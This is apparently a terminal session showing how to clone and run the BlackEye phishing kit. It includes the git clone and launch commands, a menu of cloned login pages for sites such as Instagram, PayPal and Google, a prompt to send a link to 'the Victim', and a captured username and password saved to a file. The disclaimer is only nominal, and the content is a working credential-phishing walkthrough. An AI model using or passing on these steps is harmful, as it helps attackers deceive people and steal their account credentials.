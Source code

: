 
~$ git clone https://github.com/An0nUD4Y/blackeye

Cloning into 'blackeye'...
remote: Enumerating objects: 361, done.
remote: Total 361 (delta 0), reused 0 (delta 0), pack-reused 361
Receiving objects: 100% (361/361), 8.01 MiB | 3.17 MiB/s, done.
Resolving deltas: 100% (101/101), done.

~$ cd blackeye

~/blackeye$
~/blackeye$ bash blackeye.sh

:: Disclaimer: Developers assume no liability and are not    ::
     :: responsible for any misuse or damage caused by BlackEye.  ::
     :: Only use for educational purporses!!                      ::

     :: Attacking targets without mutual consent is illegal!      ::

[01] Instagram      [17] IGFollowers   [33] Custom     BLACKEYE  v1.1
[02] Facebook       [18] eBay                      ▒▒▒▒▒▒▒▒▄▄▄▄▄▄▄▄▒▒▒▒▒▒
[03] Snapchat       [19] Pinterest                 ▒▒█▒▒▒▄██████████▄▒▒▒▒
[04] Twitter        [20] CryptoCurrency            ▒█▐▒▒▒████████████▒▒▒▒
[05] Github         [21] Verizon                   ▒▌▐▒▒██▄▀██████▀▄██▒▒▒
[06] Google         [22] DropBox                   ▐┼▐▒▒██▄▄▄▄██▄▄▄▄██▒▒▒
[07] Spotify        [23] Adobe ID                  ▐┼▐▒▒██████████████▒▒▒
[08] Netflix        [24] Shopify                   ▐▄▐████─▀▐▐▀█─█─▌▐██▄▒
[09] PayPal         [25] Messenger                 ▒▒█████──────────▐███▌
[10] Origin         [26] GitLab                    ▒▒█▀▀██▄█─▄───▐─▄███▀▒
[11] Steam          [27] Twitch                    ▒▒█▒▒███████▄██████▒▒▒
[12] Yahoo          [28] MySpace                   ▒▒▒▒▒██████████████▒▒▒
[13] Linkedin       [29] Badoo                     ▒▒▒▒▒█████████▐▌██▌▒▒▒
[14] Protonmail     [30] VK                        ▒▒▒▒▒▐▀▐▒▌▀█▀▒▐▒█▒▒▒▒▒
[15] Wordpress      [31] Yandex                    ▒▒▒▒▒▒▒▒▒▒▒▐▒▒▒▒▌▒▒▒▒▒
[16] Microsoft      [32] devianART          
[*] Put your local IP (Default 10.0.6.27):

[*] Starting php server...
[*] Send this link to the Victim: 192.168.0.16
[*] Waiting victim open the link ...
[*] Waiting credentials ...

[*] Credentials Found!
[*] Account: fudruckers
[*] Password:  thefudruckerking69
[*] Saved: sites/shopping/saved.usernames.txt
